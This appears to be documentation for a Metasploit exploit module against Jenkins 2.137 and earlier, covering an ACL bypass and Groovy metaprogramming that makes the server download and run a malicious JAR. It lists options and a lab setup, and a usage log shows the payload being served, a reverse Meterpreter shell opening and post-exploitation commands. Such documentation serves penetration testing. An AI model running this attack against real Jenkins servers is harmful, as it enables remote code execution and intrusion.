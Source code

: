 ## Introduction

This module exploits a vulnerability in Jenkins dynamic routing to
bypass the `Overall/Read` ACL and leverage Groovy metaprogramming to
download and execute a malicious JAR file.

When the `Java Dropper` target is selected, the original entry point
based on `classLoader.parseClass` is used, which requires the use of
Groovy metaprogramming to achieve RCE.

When the `Unix In-Memory` target is selected, a newer, higher-level,
and more universal entry point based on `GroovyShell.parse` is used.
This permits the use of in-memory arbitrary command execution.

The ACL bypass gadget is specific to Jenkins <= 2.137 and will not work
on later versions of Jenkins.

Tested against Jenkins 2.137 and Pipeline: Groovy Plugin 2.61.

## Setup

1. `git clone https://github.com/adamyordan/cve-2019-1003000-jenkins-rce-poc`
2. `cd cve-2019-1003000-jenkins-rce-poc/sample-vuln`
3. Edit `run.sh` and change `2.152-alpine` to `2.137`
4. `./run.sh`

## Targets

```
Id  Name
--  ----
0   Unix In-Memory
1   Java Dropper
```

## Options

**RPORT**

Set this to the Jenkins port. The default is 8080.

**TARGETURI**

Set this to the Jenkins base path. The default is `/`.

**SRVPORT**

Set this to the port on which to serve the payload. Change it from 8080
to something like 8081 if you are testing Jenkins locally on port 8080.

This option is valid only for the `Java Dropper` target.

**ForceExploit**

Set this to `true` to override the `check` result during exploitation.

## Usage

```
msf exploit(multi/http/jenkins_metaprogramming) > run

[*] Started HTTPS reverse handler on https://192.168.1.2:8443
[*] Jenkins 2.137 detected
[+] Jenkins 2.137 is a supported target
[+] ACL bypass successful
[*] Using URL: http://0.0.0.0:8081/
[*] Local IP: http://192.168.1.2:8081/
[*] Configuring Java Dropper target
[*] Sending Jenkins and Groovy go-go-gadgets
[*] HEAD /CarisaChristiansen/Rank/3.3.5/Rank-3.3.5.pom requested
[-] Sending 404
[*] HEAD /CarisaChristiansen/Rank/3.3.5/Rank-3.3.5.jar requested
[+] Sending 200
[*] GET /CarisaChristiansen/Rank/3.3.5/Rank-3.3.5.jar requested
[+] Sending payload JAR
[*] https://192.168.1.2:8443 handling request from 192.168.1.2; (UUID: qlrpxu6t) Staging java payload (54399 bytes) ...
[*] Meterpreter session 1 opened (192.168.1.2:8443 -> 192.168.1.2:58688) at 2019-03-15 18:57:24 -0500
[*] Server stopped.
[!] This exploit may require manual cleanup of '$HOME/.groovy/grapes/CarisaChristiansen' on the target

meterpreter > getuid
Server username: jenkins
meterpreter > sysinfo
Computer    : 6f21b8da2915
OS          : Linux 4.9.93-linuxkit-aufs (amd64)
Meterpreter : java/linux
meterpreter >
```
